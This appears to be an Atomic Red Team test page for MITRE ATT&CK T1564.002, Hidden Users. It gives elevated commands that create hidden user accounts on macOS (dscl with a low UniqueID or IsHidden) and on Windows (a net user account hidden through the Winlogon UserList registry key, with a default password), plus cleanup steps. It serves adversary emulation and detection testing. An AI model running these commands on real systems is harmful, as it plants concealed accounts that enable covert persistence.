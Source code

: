 ```yaml
---
tags: [T1564_002, atomic_test]
filename: "[[T1564.002 - Hide Artifacts- Hidden Users]]"
---
```

# T1564.002 - Hide Artifacts: Hidden Users

## Atomic Test #1 - Create Hidden User using UniqueID < 500
Add a hidden user on macOS using Unique ID < 500 (users with that ID are hidden by default)

**Supported Platforms:** macOS


**auto_generated_guid:** 4238a7f0-a980-4fff-98a2-dfc0a363d507





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | string | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} UniqueID 333
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #2 - Create Hidden User using IsHidden option
Add a hidden user on macOS using IsHidden optoin

**Supported Platforms:** macOS


**auto_generated_guid:** de87ed7b-52c3-43fd-9554-730f695e7f31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | string | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} IsHidden 1
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #3 - Create Hidden User in Registry
Adversaries may similarly hide user accounts in Windows. Adversaries can set the HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList Registry key value to 0 for a specific user to prevent that user from being listed on the logon screen.
Reference https://attack.mitre.org/techniques/T1564/002/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/

**Supported Platforms:** Windows


**auto_generated_guid:** 173126b7-afe4-45eb-8680-fa9f6400431c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_password | Password for new user account | string | At0micRedTeam!|
| user_name | Username | string | AtomicOperator|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
NET USER #{user_name}$ #{user_password} /ADD /expires:never 
REG ADD "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v #{user_name}$ /t REG_DWORD /d 0
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v #{user_name}$ /f >nul 2>&1
net user ${user_name}$ /delete >nul 2>&1
```





<br/>
